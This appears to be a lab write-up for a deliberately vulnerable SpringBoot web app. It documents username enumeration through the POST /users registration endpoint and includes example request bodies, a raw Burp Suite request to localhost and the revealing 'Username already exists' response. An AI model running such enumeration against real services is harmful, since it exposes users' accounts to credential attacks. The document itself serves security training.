 # Brute-Force Valid Username
A type of brute force attack that finds valid usernames (usernames of existing accounts) not belonging to the attacker.

## Exploitation
**Prerequisites:** _None_

**Location:** _POST /users_

Brute-Force valid username present within SpringBoot code by application returning if the username belongs to an existing account.  Below is an exploitation example:

    POST /users
    raw:
    {
        "username" : "admin",
        "password" : "password"
    }
    
Burp Suite, ZAP, or equivalent technologies can be used to automate brute-forcing attempts against the web application using the general format above.

Successful exploitation looks like:

    {
        "success": false,
        "code": 400,
        "message": "Username already exists"
    }

## Burp Suite Example Exploitation

    POST /users HTTP/1.1
    Host: 127.0.0.1:8081
    Content-Length: 44
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    Content-Type: application/json
    X-XSRF-TOKEN: e83a563e-ef3e-42c2-a1b7-73ad1da6296c
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: XSRF-TOKEN=e83a563e-ef3e-42c2-a1b7-73ad1da6296c
    Connection: close

    {"username":"admin","password":"password1!"}
    
